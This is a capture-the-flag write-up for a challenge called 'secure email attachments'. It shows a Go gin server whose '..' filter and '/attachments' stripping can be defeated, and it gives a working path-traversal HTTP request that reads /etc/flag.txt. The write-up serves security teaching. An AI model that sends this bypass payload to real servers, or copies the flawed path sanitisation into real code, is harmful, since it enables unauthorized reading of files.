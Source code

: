 secure email attachments
============

Challengers are provided the following `golang` code.

```go
func main() {
	r := gin.Default()

	r.GET("/*path", func(c *gin.Context) {
		p := c.Param("path")
		if strings.Contains(p, "..") {
			c.AbortWithStatus(400)
			c.String(400, "URL path cannot contain \"..\"")
			return
		}
		// Some people were confused and were putting /attachments in the URLs. This fixes that
		cleanPath := filepath.Join("./attachments", filepath.Clean(strings.ReplaceAll(p, "/attachments", "")))
		http.ServeFile(c.Writer, c.Request, cleanPath)
	})

	r.Run("0.0.0.0:1337")
}
```

The main issue is the use of `filepath.Clean` to *sanitise* the user provided file path. `filepath.Clean` and `path.Clean` have a misleading file name and do not *clean* paths that do not start with `/`. So you can perform a directory traversal attack starting a path with `../../`. This is a common mistake `golang` developers make when handling user controllable path inputs.

However, there is a validation check ensuring that no `..` sequences exist in the provided path. This can be bypassed by abusing the `strings.ReplaceAll(p, "/attachments", "")` by inserting `/attachments` in between `..` characters.

The final payload to read the flag using Burp Suite Repeater.

```go
GET /attachments./attachments./attachments/./attachments./attachments/etc/flag.txt HTTP/1.1
Host: 127.0.0.1:1337

```